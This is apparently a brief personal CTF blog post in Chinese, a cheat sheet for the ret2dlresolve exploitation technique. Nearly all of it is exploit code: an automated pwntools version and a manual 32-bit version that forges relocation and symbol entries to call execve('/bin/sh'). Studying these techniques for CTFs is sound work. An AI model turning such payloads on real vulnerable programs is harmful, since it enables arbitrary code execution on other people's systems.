 ---
title: Ret2dlresolve
date: 2021-06-18 14:49:43
tags:
layout: post
----
Ret2dlresolve

# Prologue

之前搞明白了一年没打ctf就全忘了，重新复习下，顺便学习了直接用 `Ret2dlresolvePayload`

# Cheat sheet

自动：

```cpp
rop = ROP("./pwn")
elf = ELF("./pwn")
dlresolve = Ret2dlresolvePayload(elf,symbol="execve",args=["/bin/sh",0,0])
rop.read(0,dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
pad=0
payload ='\0'*pad+str(rop)
p.send(payload.ljust(0x100))
p.send(dlresolve.payload)
```

手动：

```python
#32
bss = 0x0804a000
pad = 0x2c
read = 0x80482e0
plt_0 = 0x80482d0
bss = bss + 0x800
strtab =0x804821c
symtab =0x80481cc
rela_plt = 0x8048298
ppp=0x080484a9

payload = '\0'*pad+flat([read,ppp,0,bss,0x200])#+p64(rdx)+p64(0x100)
payload+= flat([plt_0,(bss-rela_plt)],0xdeadbeef,bss+0x58,0,0)

p.send(payload.ljust(0x200))
fake=[
    bss+0x100,
    ((((bss+0x0c-symtab)/0x10))<<8)+7,
    0,#elf64_rela end
    (0x50+bss-strtab),
    0,
    0,
    0x12,#elf64_sym end
    ]
payload= flat(fake).ljust(0x50,'\0')+"execve\0\0"+"/bin/sh\0"
```
